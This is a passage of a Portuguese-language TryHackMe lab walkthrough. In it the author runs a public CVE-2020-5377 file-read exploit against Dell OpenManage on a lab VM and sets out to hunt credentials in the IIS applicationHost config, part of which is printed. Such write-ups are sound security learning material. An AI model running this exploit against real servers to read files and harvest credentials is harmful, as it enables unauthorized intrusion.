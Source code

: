 Notei um comportamento anômalo ao tentar acessar a aplicação a partir da minha máquina local, uma vez que ela não respondia conforme o esperado. Diante disso, optei por acessá-la diretamente a partir da máquina virtual disponibilizada pelo TryHackMe, o que permitiu o funcionamento correto da aplicação. Dessa forma, as próximas etapas da exploração serão realizadas diretamente pela VM do ambiente, garantindo melhor compatibilidade e comunicação com o alvo.

### 3.2.1 Exploitando a aplicação
O **EXPLOIT** usado foi a [CVE-2020-5377](https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2020-5377_CVE-2021-21514), para mais informações sobre esse exploit tem [este artigo](https://rhinosecuritylabs.com/research/cve-2020-5377-dell-openmanage-server-administrator-file-read/)

```
root@ip-10-10-207-139:~# python3 CVE-2020-5377.py 10.10.207.139 10.10.104.51:1311
file >
```

Agora, é hora de passar a parte crucial: encontrar credenciais no servidor web. O arquivo que fica na raíz do sistema `"web.application.config"` quando você usa o IIS 7 ou até algumas versões superiores. O local que normalmente fica esse arquivo:
`%windir%\system32\inetsrv\config`

```
<!--

    The <configSections> section controls the registration of sections.
    Section is the basic unit of deployment, locking, searching and
    containment for configuration settings.

    Every section belongs to one section group.
    A section group is a container of logically-related sections.

    Sections cannot be nested.
    Section groups may be nested.

    <section
        name=""  [Required, Collection Key] [XML name of the section]
        allowDefinition="Everywhere" [MachineOnly|MachineToApplication|AppHostOnly|Everywhere] [Level where it can be set]
        overrideModeDefault="Allow"  [Allow|Deny] [Default delegation mode]
        allowLocation="true"  [true|false] [Allowed in location tags]
    />

    The recommended way to unlock sections is by using a location tag:
    <location path="Default Web Site" overrideMode="Allow">
        <system.webServer>
            <asp />
        </system.webServer>
    </location>

-->
<configSections>
    <sectionGroup name="system.applicationHost">
        <section name="applicationPools" allowDefinition="AppHostOnly" overrideModeDefault="Deny" />
        <section name="configHistory" allowDefinition="AppHostOnly" overrideModeDefault="Deny" />
        <section name="customMetadata" allowDefinition="AppHostOnly" overrideModeDefault="Deny" />
        <section name="listenerAdapters" allowDefinition="AppHostOnly" overrideModeDefault="Deny" />
        <section name="log" allowDefinition="AppHostOnly" overrideModeDefault="Deny" />
        <section name="serviceAutoStartProviders" allowDefinition="AppHostOnly" overrideModeDefault="Deny" />
        <section name="sites" allowDefinition="AppHostOnly" overrideModeDefault="Deny" />
        <section name="webLimits" allowDefinition="AppHostOnly" overrideModeDefault="Deny" />
    </sectionGroup>

```